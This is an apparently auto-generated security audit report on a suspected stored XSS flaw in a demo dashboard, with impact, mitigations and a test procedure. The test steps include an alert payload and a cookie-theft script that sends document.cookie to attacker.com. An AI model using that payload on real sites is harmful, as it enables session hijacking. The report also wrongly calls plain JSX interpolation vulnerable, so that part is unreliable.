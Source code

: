 ## Combined Vulnerability Report

This report summarizes the identified high and critical vulnerabilities, consolidated from the provided lists.

### Stored Cross-Site Scripting (XSS) vulnerability in Demo Dashboard

- **Description:**
    1. An attacker identifies an input field or functionality within the demo dashboard that allows users to input text data (e.g., model name, data description, user feedback form).
    2. The attacker crafts a malicious payload containing JavaScript code. For example: `<script>alert("XSS Vulnerability");</script>`.
    3. The attacker submits this malicious payload through the identified input field or functionality.
    4. The demo dashboard stores this malicious payload in its data storage (potentially in the browser's local storage, or a backend database if implemented).
    5. When another user (or the attacker themselves) accesses a part of the demo dashboard that displays the stored data containing the malicious payload, the JavaScript code is executed by the user's browser.
    6. This occurs because the demo dashboard fails to properly sanitize or encode the stored data before rendering it in the HTML context.

- **Impact:**
    - **Account Compromise:** An attacker could steal session cookies, allowing them to hijack user accounts and perform actions on behalf of legitimate users.
    - **Data Theft:** Malicious scripts can be used to extract sensitive information displayed on the dashboard or accessible through the user's session and send it to an attacker-controlled server.
    - **Malware Distribution:** The XSS vulnerability could be leveraged to redirect users to malicious websites or inject malware into their systems.
    - **Defacement:** Attackers could alter the appearance of the dashboard, displaying misleading or harmful content to other users.
    - **Denial of Service (Indirect):** By injecting resource-intensive scripts, an attacker could degrade the performance of the dashboard for other users.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    - There are no currently implemented mitigations visible in the provided project files for XSS vulnerabilities within the demo dashboard's frontend code. The provided files focus on backend logic, smart contracts, and simulation aspects rather than frontend security measures.

- **Missing Mitigations:**
    - **Input Sanitization:** Implement robust input sanitization on the server-side (if a backend service is used to store dashboard data) to remove or neutralize potentially malicious code before storing user-provided data.
    - **Output Encoding:**  Employ proper output encoding (e.g., HTML entity encoding) in the frontend React code when rendering user-provided or data fetched from backend/blockchain in HTML. This ensures that any potentially malicious characters are displayed as text and not executed as code. Libraries like `DOMPurify` can be used for sanitizing HTML content in React.
    - **Content Security Policy (CSP):** Implement a Content Security Policy to restrict the sources from which the dashboard can load resources (scripts, stylesheets, images, etc.). This can significantly reduce the impact of XSS attacks by limiting the actions an attacker can perform even if they manage to inject malicious scripts.
    - **Regular Security Audits and Penetration Testing:** Conduct regular security audits and penetration testing specifically targeting the demo dashboard's frontend to identify and address XSS vulnerabilities proactively.

- **Preconditions:**
    - A user with malicious intent needs to be able to interact with the demo dashboard and input text data into a field that is subsequently displayed to other users without proper sanitization.
    - The demo dashboard must store the user-provided data and render it in a way that allows JavaScript execution.
    - Users must access the vulnerable part of the demo dashboard after the malicious payload has been stored.

- **Source Code Analysis:**
    - As the provided files do not include the frontend code for the demo dashboard, a direct source code analysis to pinpoint the vulnerable location is not possible.
    - However, based on typical React frontend structures and common XSS vulnerability patterns, the vulnerability is likely to be in React components responsible for:
        - Displaying user-generated content or data fetched from an API/blockchain.
        - Using functions like `dangerouslySetInnerHTML` without careful sanitization, which is a common source of XSS in React if used improperly.
        - Rendering data directly from state or props into JSX without proper encoding.
    - Example of potentially vulnerable React code snippet (hypothetical):
      ```jsx
      function DataDisplay({ userData }) {
        return (
          <div>
            <h1>User Data:</h1>
            <div>
              {/* Vulnerable code - directly rendering userData without encoding */}
              <p>{userData}</p>
            </div>
          </div>
        );
      }
      ```
      or using `dangerouslySetInnerHTML`:
      ```jsx
      function DataDisplay({ userDataHTML }) {
        return (
          <div>
            <h1>User Data:</h1>
            {/* Vulnerable code - using dangerouslySetInnerHTML without sanitization */}
            <div dangerouslySetInnerHTML={{ __html: userDataHTML }} />
          </div>
        );
      }
      ```

- **Security Test Case:**
    1. Deploy the demo dashboard locally or access a publicly deployed instance if available.
    2. Identify an input field within the dashboard (e.g., a field to name a model, add a description to data, or a feedback/comment section).
    3. In the identified input field, enter the following XSS payload: `<script>alert('XSS Vulnerability Test');</script>`.
    4. Submit the input.
    5. Navigate to the dashboard page where the entered data is displayed. This might be a model details page, a data listing, or a user profile page depending on the dashboard's functionality.
    6. Observe if an alert box with the message "XSS Vulnerability Test" appears in your browser when the page loads or when interacting with the element displaying the injected data.
    7. If the alert box appears, it confirms the presence of a Stored XSS vulnerability.
    8. To further test cookie theft, use the payload: `<script>document.location='http://attacker.com/cookie_steal.php?cookie='+document.cookie</script>` (replace `http://attacker.com/cookie_steal.php` with a server you control to capture cookies). Observe if your cookies are sent to the attacker's server when you access the page displaying the injected data.
    9. If cookies are successfully sent, it further validates the XSS vulnerability and demonstrates a higher severity impact.